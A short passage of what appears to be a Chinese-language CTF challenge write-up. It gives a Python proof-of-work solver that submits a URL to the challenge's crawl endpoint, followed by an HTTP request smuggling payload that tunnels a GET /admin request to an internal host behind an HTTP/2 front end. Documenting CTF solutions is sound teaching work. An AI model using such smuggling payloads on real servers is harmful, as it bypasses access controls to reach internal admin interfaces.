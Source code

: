  另外前端的 pow solver 是后来给的，本意是想让选手自行写一下，be like
  
  ```python
  import requests
  from pwn import *

  url = 'https://challenge.address/'
  charset = string.ascii_letters + string.digits
  user = 'N0obcAs10'
  entry_url = 'http://baidu.com/'

  s = requests.Session()
  s.verify = False
  requests.urllib3.disable_warnings(requests.urllib3.exceptions.InsecureRequestWarning)


  def solve_pow():
      html = s.get(url=url).text
      task = re.search(r"== \w{6}", html)[0][-6:]
      log.info(f"Q: md5(xxxx)[-6:] == {task}")
      proof = iters.mbruteforce(lambda x: md5sumhex(x.encode())[-6:] == task, alphabet=charset, length=4, method='fixed')
      if proof:
          log.success(f"A: md5({proof}) == {md5sumhex(proof.encode())}")
          return proof
      else:
          log.failure("solution not found, check it.")
          return None


  def push_entry(username, entry):
      proof = solve_pow()
      res = s.post(url=url + 'guest/crawl',
                  data={"username": username, "entry": entry, "proof": proof})
      if "Success" in res.text:
          log.success(f"{username} push entry: {entry}")
      else:
          log.failure("push failed.")


  push_entry(user, entry_url)

  ```
  
- 请求走私

  ```
  POST / HTTP/2
  Host: challenge.address
  Content-Length: 0
  
  GET /admin HTTP/1.1
  Host: app:8082
  ```
